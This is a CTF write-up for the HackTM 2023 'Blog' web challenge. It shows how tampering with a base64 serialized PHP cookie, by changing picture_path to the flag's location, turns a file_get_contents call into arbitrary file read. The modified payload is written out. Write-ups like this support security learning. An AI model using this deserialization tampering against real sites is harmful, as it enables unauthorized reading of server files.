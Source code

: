 ```yaml
---
title: HackTM CTF 2023 - Writeup
author: H0j3n
date: 2023-02-19 00:00:00
categories: [ctf]
tags: [ctf,writeup]
render_with_liquid: false
---
```


This write-up serves as a personal reference and a tool for me to practice CTF. It includes information and solutions collected from various sources, including challenges that were not solved during the event.

### Category : Web

#### Web : Blog

> We made a new blogging website for everyone to use! It's pretty basic for now, and it has a few limitations like:
> 1. No comments
> 2. Semi-working authentication system
> 3. Lots of random checks slowing down the entire website honestly (i don't know what's going on so i'm not touching it)
> 
> To mitigate that, we made it such that only you can view your own posts. No one
can hack us now >:)
> 
> Link: [http://34.141.16.87:30000/](http://34.141.16.87:30000/)
> 
> File: `dist.zip`

We received a file named `dist.zip`, which includes a dockerfile that contains a `COPY` function to transfer the contents of `./chal/flag.txt` to `/02d92f5f-a58c-42b1-98c7-746bbda7abe9/flag.txt`

> `COPY`: The `COPY` instruction in a Dockerfile is used to copy files or directories from the host machine into the container during the build process.
{: .prompt-info }

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/5_hacktm2023/hacktm1.png)

In `util.php`, the `file_get_contents` PHP function is used to retrieve a user's profile image. 

```php
class Profile {
	public function __toString() {
			// ------snip------
	        $picture = base64_encode(file_get_contents($this->picture_path));
	        // ------snip------
	    }
}
```

When a new account is registered and a user logs in, a cookie is generated that contains a serialized PHP object in base64 format.

- **Encoded Base64** 
```bash
Tzo0OiJVc2VyIjoyOntzOjc6InByb2ZpbGUiO086NzoiUHJvZmlsZSI6Mjp7czo4OiJ1c2VybmFtZSI7czo4OiJhZG1pbjMyMSI7czoxMjoicGljdHVyZV9wYXRoIjtzOjI3OiJpbWFnZXMvcmVhbF9wcm9ncmFtbWVycy5wbmciO31zOjU6InBvc3RzIjthOjA6e319
```

- **Decoded Base64**
```bash
O:4:"User":2:{s:7:"profile";O:7:"Profile":2:{s:8:"username";s:8:"admin321";s:12:"picture_path";s:27:"images/real_programmers.png";}s:5:"posts";a:0:{}}
```

The serialized PHP object contains the path to the user's profile image. When the server responds to the user's request, the response includes the base64-encoded content of the user's profile image.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/5_hacktm2023/hacktm2.png)

To retrieve the flag, we modify the path to the profile image in the serialized PHP object to point to the flag path, and then decode the base64 response.

```bash
O:4:"User":2:{s:7:"profile";O:7:"Profile":2:{s:8:"username";s:8:"admin321";s:12:"picture_path";s:46:"/02d92f5f-a58c-42b1-98c7-746bbda7abe9/flag.txt";}s:5:"posts";a:0:{}}
```

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/5_hacktm2023/hacktm3.png)

Flag: `HackTM{r3t__toString_1s_s0_fun_13c573f6}`

